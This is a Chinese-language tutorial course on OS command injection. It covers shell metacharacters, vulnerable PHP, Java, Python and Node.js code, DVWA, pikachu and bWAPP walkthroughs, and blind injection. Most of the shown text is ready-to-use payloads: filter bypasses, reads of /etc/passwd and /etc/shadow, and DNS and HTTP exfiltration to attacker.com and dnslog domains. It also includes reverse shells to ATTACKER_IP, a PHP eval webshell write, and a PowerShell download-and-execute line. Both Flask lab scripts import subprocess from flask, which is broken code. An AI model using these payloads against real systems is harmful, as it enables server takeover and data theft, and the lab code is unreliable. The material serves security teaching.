








# 命令注入漏洞详解 —— OS Command Injection
> 📚 课程目录

| 课时 | 主题 | 时长 | 核心产出 |
| :---: | --- | :---: | --- |
| 第 1 课 | 命令注入基础 + Shell 元字符 | 60 min | 手写 8 种管道符 PoC |
| 第 2 课 | 各种语言差异 + 靶场复现 | 70 min | 完成 DVWA / pikachu / bwapp |
| 第 3 课 | 盲命令注入 + DNSLog + OOB | 60 min | 用延时 / DNSLog 拿数据 |
| 第 4 课 | 绕过技巧 + 防御 + 真实案例 | 50 min | 写出 4 种语言的防御代码 |


> 🎯 **学完本课你应当能做到**：
> 1. 30 秒内识别某接口是否有命令注入风险
> 2. 用 `;` `|` `&&` `||` `$()` `` ` `` `>` `<` 等 8 种符号构造 Payload
> 3. 在 DVWA High 关卡绕过黑名单
> 4. 用 DNSLog 把 `/etc/passwd` 整个文件外带出来
> 5. 在 PHP / Java / Python / Node.js 中实现正确防御


---

# 🗓️ 第 1 课 · 命令注入基础 + Shell 元字符
## 1.1 什么是命令注入？
### 一句话定义
**OS Command Injection（操作系统命令注入）**：  
攻击者把**额外的命令**插入到应用原本要执行的命令中，让操作系统**代替攻击者执行任意命令**。




---

## 1.2 命令注入 vs 代码注入 vs SQL 注入
| 漏洞 | 注入目标 | 执行环境 | 危害 |
| --- | --- | --- | --- |
| SQL 注入 | SQL 语句 | 数据库 | 拖库 |
| 命令注入 | Shell 命令 | OS Shell | **RCE**（最严重） |
| 代码注入 | 源代码 | 语言运行时 | RCE |
| LDAP 注入 | LDAP 查询 | 目录服务 | 数据泄露 |
| XSS | HTML/JS | 浏览器 | 客户端攻击 |


🎯 **命令注入 = 直接 RCE，最高危**。  
一旦成功，攻击者完全控制服务器。

---

## 1.3 高发场景（必查接口）


### 检测关键词
```plain
□ ping / traceroute / nslookup / dig
□ convert / imagemagick / ffmpeg / wkhtmltopdf
□ tar / zip / unzip / rar
□ curl / wget / fetch
□ system / exec / shell_exec / passthru (PHP)
□ Runtime.exec / ProcessBuilder (Java)
□ os.system / subprocess (Python)
□ child_process (Node.js)
```

---

## 1.4 一个最经典的漏洞代码
### PHP 示例
```php
<?php
// ping.php
$ip = $_GET['ip'];
$cmd = "ping -c 4 " . $ip;            // ❌ 拼接命令
system($cmd);                          // ❌ 直接执行
?>
```

### 漏洞利用
```plain
正常：
http://site.com/ping.php?ip=127.0.0.1
→ 服务端执行：ping -c 4 127.0.0.1

攻击：
http://site.com/ping.php?ip=127.0.0.1;cat /etc/passwd
→ 服务端执行：ping -c 4 127.0.0.1;cat /etc/passwd
→ ping 完，再执行 cat /etc/passwd
```

---

## 1.5 Shell 元字符大全（核心）
> 🎯 **命令注入 = 利用 shell 元字符改变命令结构**。
>

### 命令分隔符（最重要）
| 符号 | 含义 | 示例 |
| --- | --- | --- |
| `;` | **顺序执行**（不管前面是否成功） | `cmd1 ; cmd2` |
| `&&` | **逻辑与**（cmd1 成功才执行 cmd2） | `cmd1 && cmd2` |
| `||` | **逻辑或**（cmd1 失败才执行 cmd2） | `cmd1 || cmd2` |
| `&` | **后台执行**（cmd1 后台，立即执行 cmd2） | `cmd1 & cmd2` |
| `|` | **管道**（cmd1 输出作为 cmd2 输入） | `cmd1 | cmd2` |


### 实战对比
```plain
;        → 一定执行后续命令（最常用）
&&       → 前面成功才执行（更隐蔽）
||       → 前面失败才执行
|        → 通过管道获取输出（最稳）
&        → 后台执行，常用于反弹 shell
```

### 5 种分隔符在 Ping 场景的演示
```plain
ping -c 4 127.0.0.1;id          → ping;id 两个命令都执行
ping -c 4 127.0.0.1 && id       → ping 成功后执行 id
ping -c 4 127.0.0.1 || id       → ping 失败时执行 id
ping -c 4 127.0.0.1 | id        → id 把 ping 的输出作为输入（不显示 id 输出）
ping -c 4 127.0.0.1 & id        → ping 后台，id 立即执行
```

> ⚠️ `|` 管道**会把后面的命令输出显示出来**，但要 `cat` 才能完整显示。  
实战中 `;` `&&` `||` 更直接。
>

---

## 1.6 命令替换符
| 符号 | 含义 | 示例 |
| --- | --- | --- |
| `` ` ` `` | **反引号**：执行命令，输出替换 | `` echo `id` `` |
| `$()` | **命令替换**：等价反引号 | `echo $(id)` |


### 示例
```bash
echo "User is `whoami`"        # 输出 User is root
echo "User is $(whoami)"        # 输出 User is root
echo $(cat /etc/passwd)         # 输出 passwd 内容
```

> 🎯 **核心理解**：  
`` ` ` `` 和 `$()` 是**命令替换**，**先执行被包裹的命令，再把输出插入原命令**。
>

---

## 1.7 重定向符
| 符号 | 含义 |
| --- | --- |
| `>` | 输出重定向（覆盖） |
| `>>` | 输出重定向（追加） |
| `<` | 输入重定向 |
| `2>` | 错误重定向 |
| `&>` | 标准输出 + 错误都重定向 |
| `2>&1` | 错误合并到标准输出 |


### 命令注入中的用途
```bash
# 把命令输出写到 web 目录（生成 webshell）
id > /var/www/html/output.txt

# 把命令执行结果写入日志
cat /etc/passwd > /tmp/pwned.txt

# 反弹 shell 用重定向
bash -i >& /dev/tcp/attacker/4444 0>&1
```

---

## 1.8 通配符
| 符号 | 含义 |
| --- | --- |
| `*` | 匹配任意字符 |
| `?` | 匹配单字符 |
| `[abc]` | 匹配 abc 之一 |
| `[a-z]` | 匹配范围 |
| `{a,b,c}` | 展开 a b c |


### 命令注入中的用途
```bash
# 绕过关键字过滤（用通配符代替字母）
cat /etc/passwd       →  被过滤
/bin/cat /etc/passwd  →  被过滤
c''at /etc/passwd     →  部分绕过
c\\at /etc/passwd     →  部分绕过
/???/?? /???/?????    →  /bin/cat /etc/passwd（全通配）
```

---

## 1.9 各种括号 / 引号
| 符号 | 含义 |
| --- | --- |
| `()` | 子 shell |
| `{}` | 命令组合 |
| `''` | 单引号（**完全不做替换**） |
| `""` | 双引号（**做变量 / 命令替换**） |
| `$VAR` | 变量引用 |


### 引号差异（重要）
```bash
echo '$HOME'           # 输出 $HOME（单引号不解析）
echo "$HOME"           # 输出 /root（双引号解析变量）
echo "`whoami`"        # 输出 root（双引号解析命令）
echo '`whoami`'        # 输出 `whoami`（单引号不解析）
```

> 🎯 **绕过技巧**：
>
> + 如果过滤 `cat`，可写 `c""at` 或 `c''at`（拼接绕过）
> + 如果过滤 `/etc/passwd`，可写 `/etc/passwd''` 或 `/etc/pa??wd`
>

---

## 1.10 一个完整 Payload 演示
### 漏洞代码（自建）
```bash
mkdir -p /tmp/cmd-lab
cat > /tmp/cmd-lab/app.py <<'EOF'
from flask import Flask, request, subprocess
app = Flask(__name__)

@app.route("/ping")
def ping():
    ip = request.args.get("ip", "")
    if not ip:
        return "missing ip", 400
    cmd = f"ping -c 2 {ip}"              # ❌ 拼接
    out = subprocess.run(cmd, shell=True,  # ❌ shell=True
                        capture_output=True, text=True)
    return f"<pre>{out.stdout}\n{out.stderr}</pre>"

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
EOF

pip3 install flask
python3 /tmp/cmd-lab/app.py
```

### 测试 8 种 Payload
```bash
# 1. 顺序执行
curl "http://localhost:5000/ping?ip=127.0.0.1;id"

# 2. 逻辑与
curl "http://localhost:5000/ping?ip=127.0.0.1%26%26id"
# （&& URL 编码为 %26%26）

# 3. 逻辑或
curl "http://localhost:5000/ping?ip=invalid%7C%7Cid"

# 4. 管道
curl "http://localhost:5000/ping?ip=127.0.0.1|id"

# 5. 后台执行
curl "http://localhost:5000/ping?ip=127.0.0.1%26id"
# （& URL 编码为 %26）

# 6. 反引号
curl "http://localhost:5000/ping?ip=%60id%60"

# 7. 命令替换
curl "http://localhost:5000/ping?ip=%24(id)"
# （$() URL 编码）

# 8. 重定向（写文件）
curl "http://localhost:5000/ping?ip=127.0.0.1;id>/tmp/pwned.txt"
cat /tmp/pwned.txt
```

---

## 1.11 第 1 课小结
| 元字符 | 一句话 |
| --- | --- |
| `;` | 顺序执行（最常用） |
| `&&` | 前面成功才执行 |
| `||` | 前面失败才执行 |
| `|` | 管道传递输出 |
| `&` | 后台执行 |
| `` ` `` | 反引号命令替换 |
| `$()` | 命令替换 |
| `>` `>>` | 输出重定向 |
| `<` | 输入重定向 |
| `*` `?` | 通配符 |
| `''` `""` | 引号绕过滤 |


### 课间实操（10 分钟）
1. 启动自建 Flask 靶场
2. 用浏览器测试 8 种 Payload（注意 URL 编码）
3. 用 `; id` 看回显
4. 用 `; id > /tmp/x.txt` 测试重定向

---

# 🗓️ 第 2 课 · 各种语言差异 + 靶场复现
## 2.1 不同语言的命令执行函数


---

## 2.2 PHP 命令执行函数
| 函数 | 行为 | 输出 |
| --- | --- | --- |
| `system()` | 执行 + 输出 | 直接打印 |
| `exec()` | 执行 | 返回最后一行 |
| `shell_exec()` | 执行 | 返回全部输出 |
| `passthru()` | 执行 + 原始输出 | 直接打印（适合二进制） |
| `` `cmd` `` | 反引号 | 返回输出 |
| `popen()` | 打开进程管道 | 文件指针 |
| `proc_open()` | 高级进程控制 | 文件指针数组 |


### PHP 漏洞代码
```php
<?php
$cmd = $_GET['cmd'];
system($cmd);              // ❌
exec($cmd, $out);          // ❌
echo shell_exec($cmd);     // ❌
passthru($cmd);            // ❌
echo `$cmd`;               // ❌
?>
```

---

## 2.3 Java 命令执行
### Runtime.exec（经典）
```java
String cmd = request.getParameter("cmd");
Process p = Runtime.getRuntime().exec(cmd);  // ❌ 拼接外部输入
```

**注意**：Java Runtime.exec **默认不调用 shell**，所以 `;` `|` `&&` 这些**不会被识别**！

```java
Runtime.exec("ping 127.0.0.1;id")
// 实际执行：ping 127.0.0.1;id（一个完整参数）
// 不触发命令注入
```

### 但如果用 `sh -c` 就有漏洞
```java
String[] cmd = {"/bin/sh", "-c", "ping -c 4 " + userInput};
Runtime.exec(cmd);   // ❌ 此时 ; | 等生效
```

### ProcessBuilder（推荐）
```java
ProcessBuilder pb = new ProcessBuilder("ping", "-c", "4", userInput);
Process p = pb.start();   // ❌ 如果 user input 是 "127.0.0.1;id"
                            //    会被当作单个 ping 参数，安全
```

> 🎯 **Java 防御相对容易**：默认不调用 shell，只要不显式 `sh -c` 就安全。
>

---

## 2.4 Python 命令执行
### 危险用法
```python
import os
import subprocess

# ❌ 危险：shell=True + 字符串拼接
os.system(f"ping -c 4 {user_input}")
subprocess.run(f"ping -c 4 {user_input}", shell=True)
```

### 安全用法
```python
# ✅ 安全：列表传参 + shell=False
subprocess.run(["ping", "-c", "4", user_input])
# user_input = "127.0.0.1;id" 会被当作 ping 的单个参数，安全
```

### shell=True vs shell=False
| 模式 | 是否调用 shell | 元字符是否生效 |
| --- | :---: | :---: |
| `shell=True` + 字符串 | ✅ | ✅（漏洞） |
| `shell=False` + 列表 | ❌ | ❌（安全） |


---

## 2.5 Node.js 命令执行
```javascript
const { exec, execSync, spawn } = require('child_process');

// ❌ 危险：exec 调用 shell
exec(`ping -c 4 ${userInput}`, (err, stdout) => { ... });

// ✅ 安全：spawn 不调用 shell，列表传参
spawn('ping', ['-c', '4', userInput]);
```

---

## 2.6 靶场复现 1：DVWA Command Injection
```bash
docker run -d --name dvwa -p 8080:80 vulnerables/web-dvwa
# admin / password
```

### Low 级别
```php
$ip = $_REQUEST[ 'ip' ];
$cmd = shell_exec( 'ping -c 4 ' . $ip );
echo "<pre>{$cmd}</pre>";
```

**Payload**：

```plain
127.0.0.1;id
127.0.0.1 && id
127.0.0.1 | id
127.0.0.1 & id
```

### Medium 级别
```php
$substitutions = array(
    '&&' => '',
    ';'  => '',
);
$ip = str_replace( array_keys( $substitutions ), $substitutions, $ip );
```

**只过滤 **`&&`** 和 **`;`。

**绕过**：

```plain
127.0.0.1 &  id        （单 &）
127.0.0.1 | id         （管道）
127.0.0.1 || id        （逻辑或）
127.0.0.1 &&& id       （前两个 && 被替换，剩 & id）
127.0.0.1 &; id        （; 被替换，剩 & id）
```

### High 级别
```php
$substitutions = array(
    '&'  => '',
    ';'  => '',
    '| ' => '',    // 注意 | 后面有空格
    '-'  => '',
    '$'  => '',
    '('  => '',
    ')'  => '',
    '`'  => '',
    '||' => '',
);
```

**注意**：`| ` 后面有空格 → 只过滤 `| `（管道 + 空格）。

**绕过**：

```plain
127.0.0.1|id           （| 后面**没有空格**）
```

**返回结果**：直接显示 `id` 输出，因为 `|` 后无空格不被过滤！

### Impossible 级别
```php
$ip = $_POST[ 'ip' ];
$ip = stripslashes( $ip );
$ip = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $ip);  // 转义
$ip = preg_replace('/[^0-9a-zA-Z.:]/', '', $ip);   // 白名单只保留数字字母.: 
```

**白名单字符**：`0-9` `a-z` `A-Z` `.` `:`  
→ 无法注入任何 shell 元字符。

---

## 2.7 靶场复现 2：pikachu 命令注入
```bash
docker run -d --name pikachu -p 8088:80 area39/pikachu
```

### 关卡：RCE → ping
```plain
http://localhost:8088/vul/rce/rce_ping.php
```

**直接输入**：

```plain
127.0.0.1; whoami
127.0.0.1 && netstat -an
127.0.0.1 | ls -la
```

源码（无任何过滤）：

```php
$ip = $_POST['ip'];
$cmd = "ping -c 4 " . $ip;
echo system($cmd);
```

---

## 2.8 靶场复现 3：bwapp 命令注入
```bash
docker run -d --name bwapp -p 8081:80 raesene/bwapp
# bee / bug
```

### 关卡：Command Injection
```plain
A1 - Injection → OS Command Injection
```

输入域名 / IP → 服务端执行 `nslookup`。

**Payload**：

```plain
127.0.0.1; id
localhost && whoami
google.com | uname -a
```

### DNS 相关的命令注入
很多网站用 `nslookup` / `dig` 做域名查询：

```plain
提交：example.com; cat /etc/passwd
服务端执行：nslookup example.com; cat /etc/passwd
```

---

## 2.9 各种语言执行的差异
| 语言 | `;` `|` `&&` 是否生效 | 关键 |  
|------|:-------------------:|------|  
| PHP（system/exec） | ✅ | shell 包装 |  
| Python `os.system` | ✅ | shell 包装 |  
| Python `subprocess shell=True` | ✅ | shell 包装 |  
| Python `subprocess shell=False` | ❌ | 列表传参 |  
| Node.js `exec` | ✅ | shell 包装 |  
| Node.js `spawn` | ❌ | 列表传参 |  
| Java `Runtime.exec(String)` | ❌ | **默认不调用 shell** |  
| Java `Runtime.exec(String[] {"sh","-c",cmd})` | ✅ | 显式 shell |  
| Go `exec.Command` | ❌ | 列表传参 |

> 🎯 **关键认知**：
>
> + PHP / Python / Node.js 默认调 shell → 注入风险高
> + Java / Go 默认不调 shell → 注入风险低
> + 但如果用 `sh -c` 包装 → 全部都有风险
>

---

## 2.10 实战 PoC 模板
### Linux 信息收集
```plain
id; uname -a; cat /etc/passwd; cat /etc/shadow
ls -la /var/www/html/
cat /etc/crontab
netstat -tulnp
ps -ef
find / -perm -4000 2>/dev/null         # SUID 提权
```

### 反弹 Shell
```plain
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
nc ATTACKER_IP 4444 -e /bin/bash
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("ATTACKER_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

监听：

```bash
nc -lvnp 4444
```

### Windows 命令
```plain
whoami
dir C:\
type C:\Windows\win.ini
ipconfig /all
net user
tasklist
```

Windows 命令分隔符：

```plain
&       顺序执行
&&      逻辑与
||      逻辑或
|       管道
```

注意：Windows 命令行**不支持** `` ` ``、`$()`、`;`。

---

## 2.11 第 2 课小结
| 知识点 | 一句话 |
| --- | --- |
| PHP system/exec | 默认调 shell，风险高 |
| Java Runtime.exec | 默认不调 shell，风险低 |
| Python subprocess shell=True | 风险高 |
| Node.js exec | 风险高 |
| DVWA Low | `;id` 直接注入 |
| DVWA Medium | 只过滤 `;` `&&`，用 `|` `&` 绕 |
| DVWA High | `| ` 带空格过滤，用 `|id` 无空格绕 |
| DVWA Impossible | 白名单只保留 `0-9a-zA-Z.:` |
| Windows 分隔符 | `&` `||` `&&` `|`（无分号） |


### 课间实操（15 分钟）
1. 完成 DVWA 4 个级别，每个级别写出至少 1 个 Payload
2. 完成 pikachu 命令注入关卡
3. 完成 bwapp OS Command Injection 关卡
4. 启动自建 Flask 靶场，测试 8 种元字符

---

# 🗓️ 第 3 课 · 盲命令注入 + DNSLog + OOB
## 3.1 什么是盲命令注入？


### 盲命令注入常见场景
+ 接口只返回"成功/失败"
+ 后台异步执行
+ 错误被通用异常处理器吞掉
+ 输出被丢弃

---

## 3.2 侧信道检测


---

## 3.3 延时检测
### Linux
```plain
;sleep 10
;sleep 5
```

如果服务端响应时间明显增加 5-10 秒 → **命令注入确认**。

### Windows
```plain
&ping -n 10 127.0.0.1
&timeout 10
```

### Python 自动化检测
```python
import requests, time

def detect_blind(url, param):
    # 基准时间
    t0 = time.time()
    requests.get(url, params={param: "127.0.0.1"})
    base = time.time() - t0

    # 注入 sleep
    t0 = time.time()
    requests.get(url, params={param: "127.0.0.1; sleep 5"})
    injected = time.time() - t0

    print(f"Base: {base:.2f}s, Injected: {injected:.2f}s")
    if injected > base + 4:
        return True
    return False
```

---

## 3.4 用 sleep 配合条件判断（类似 SQL 盲注）
### 思路
```plain
if [条件]; then sleep 5; fi
```

### 示例
```plain
# 判断 /etc/passwd 是否存在
; if [ -f /etc/passwd ]; then sleep 5; fi

# 判断 root 是否登录
; if [ $(whoami) = "root" ]; then sleep 5; fi

# 一位位猜文件名（盲注字符）
; if [ $(head -c 1 /etc/hostname) = "a" ]; then sleep 5; fi
```

> 🎯 **延时盲注太慢**，实战中常用 DNSLog 一次性带数据。
>

---

## 3.5 DNSLog 外带（重要）
### 原理
```plain
让目标执行：ping `whoami`.attacker.com
→ DNS 解析时：whoami_output.attacker.com 被攻击者 DNS 接收
→ 即使没回显，也能从 DNS 查询记录看到命令输出
```

### 工具：DNSLog.cn / CEYE.io
```bash
# 注册 ceye.io 得到一个子域名
# 例如：abc123.ceye.io
```

### Payload 模板
```plain
# Linux
; ping -c 1 `whoami`.abc123.ceye.io
; curl http://`whoami`.abc123.ceye.io/
; nslookup `whoami`.abc123.ceye.io

# 用 $() 替代反引号
; ping -c 1 $(whoami).abc123.ceye.io

# 多级域名（外带文件内容）
; curl http://$(cat /etc/passwd | base64).abc123.ceye.io/
```

### 在 ceye 控制台查看
几秒后，ceye 的 DNS 记录会显示：

```plain
root.abc123.ceye.io          ← whoami 输出是 root
```

---

## 3.6 外带文件内容
### 单行外带（HTTP）
```plain
; curl http://attacker.com/?d=$(cat /etc/passwd | base64 -w 0)
```

### 多行外带（DNS）
```plain
; for line in $(cat /etc/passwd); do ping -c 1 $line.attacker.com; done
```

### Base64 编码后分段
```python
# 攻击者端准备接收脚本
import base64
data = "..."
chunks = [data[i:i+60] for i in range(0, len(data), 60)]
for i, c in enumerate(chunks):
    print(f"; ping {i}.{c}.attacker.com")
```

把每段（DNS 域名标签 ≤ 63 字符）作为子域名，攻击者 DNS 收集后拼接。

---

## 3.7 完整 OOB 流程


---

## 3.8 自建盲命令注入靶场
```bash
mkdir -p /tmp/blind-cmd
cat > /tmp/blind-cmd/app.py <<'EOF'
from flask import Flask, request, subprocess
app = Flask(__name__)

@app.route("/ping")
def ping():
    ip = request.args.get("ip", "")
    if not ip:
        return "missing ip"
    cmd = f"ping -c 2 {ip} > /dev/null 2>&1"   # ❌ 拼接，输出被丢弃
    subprocess.run(cmd, shell=True)
    return "Ping done."                          # ❌ 不回显

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5001)
EOF

python3 /tmp/blind-cmd/app.py
```

### 延时检测
```bash
time curl "http://localhost:5001/ping?ip=127.0.0.1"
# 0.5s

time curl "http://localhost:5001/ping?ip=127.0.0.1;sleep 5"
# 5.5s → 盲注入确认！
```

### DNSLog 检测
```bash
# 启动 DNS 接收（用 dnslog.cn 或 ceye.io）
# Payload：
curl "http://localhost:5001/ping?ip=127.0.0.1;curl%20%60whoami%60.dnslog.cn"
```

几秒后 dnslog.cn 页面刷新，看到 `root.dnslog.cn` 的查询记录。

---

## 3.9 写文件 + 读文件
### 利用条件
如果命令执行但无回显，可写到 web 目录后 HTTP 访问。

```plain
; id > /var/www/html/output.txt
; cat /etc/passwd > /var/www/html/p.txt
```

然后：

```bash
curl http://victim.com/output.txt
curl http://victim.com/p.txt
```

### 写 Webshell
```plain
; echo '<?php @eval($_POST["c"]);?>' > /var/www/html/s.php
```

提交后用蚁剑连接 `http://victim.com/s.php`（详见 Webshell 课件）。

---

## 3.10 反弹 Shell（终极利用）
### Bash 反弹
```plain
; bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

### Python 反弹
```plain
; python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("ATTACKER_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

### nc 反弹（不同版本）
```plain
# nc 有 -e 选项（旧版）
; nc ATTACKER_IP 4444 -e /bin/bash

# nc 无 -e（新版 busybox）
; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f
```

### 监听
```bash
nc -lvnp 4444
```

### Payload URL 编码
URL 中特殊字符必须编码：

| 字符 | URL 编码 |
| --- | --- |
| 空格 | `%20` 或 `+` |
| `;` | `%3B` |
| `&` | `%26` |
| `|` | `%7C` |
| `` ` `` | `%60` |
| `(` | `%28` |
| `)` | `%29` |
| `<` | `%3C` |
| `>` | `%3E` |


---

## 3.11 反弹 Shell 的进阶技巧
### 绕过空格过滤
```bash
{cat,/etc/passwd}            # 大括号展开
cat${IFS}/etc/passwd         # $IFS = 内部字段分隔符（默认空格/tab/换行）
cat$IFS/etc/passwd
X=$'cat\x20/etc/passwd';$X   # 用变量
```

### 绕过关键字过滤
```bash
# 过滤 cat
ca\t /etc/passwd             # 反斜杠
c''at /etc/passwd            # 引号
c""at /etc/passwd
echo Y2F0IC9ldGMvcGFzc3dk | base64 -d | sh    # base64

# 过滤 /
echo Y2F0IC9ldGMvcGFzc3dk | base64 -d         # cat /etc/passwd
${PATH:0:1}                  # 取 PATH 第一个字符（/）

# 过滤字母（仅用数字符号）
$(echo${IFS}"121141164"${IFS}"57"${IFS}"1451641435716314116314657")  # 8 进制
```

### 利用环境变量
```bash
$PATH                       # /usr/local/sbin:/usr/local/bin:...
${PATH:0:1}                 # /
${HOME:0:1}                 # /
${SHELL:4:1}                # h
```

---

## 3.12 Windows 盲命令注入
###延时

```plain
& ping -n 10 127.0.0.1
& timeout 10
```

### DNSLog
```plain
& nslookup %USERNAME%.attacker.com
& ping %USERNAME%.attacker.com
```

### 写文件
```plain
& whoami > C:\inetpub\wwwroot\o.txt
& dir C:\ > C:\inetpub\wwwroot\d.txt
```

### PowerShell 反弹
```plain
& powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://attacker/rev.ps1')"
```

---

## 3.13 第 3 课小结
| 知识点 | 一句话 |
| --- | --- |
| 盲命令注入 | 执行但不回显 |
| 延时检测 | `; sleep 5` |
| DNSLog | `; ping \`whoami`.attacker.com` |
| 写文件 | `; id > /var/www/html/o.txt` |
| 反弹 Shell | `bash -i >& /dev/tcp/IP/PORT 0>&1` |
| 空格绕过 | `$IFS` / `{cat,/etc/passwd}` |
| 关键字绕过 | `c''at` / base64 / `${PATH:0:1}` |
| Windows | 无 `;`，用 `&` |


### 课间实操（15 分钟）
1. 启动盲命令注入 Flask 靶场
2. 用延时确认漏洞
3. 用 ceye.io / dnslog.cn 外带 `whoami`
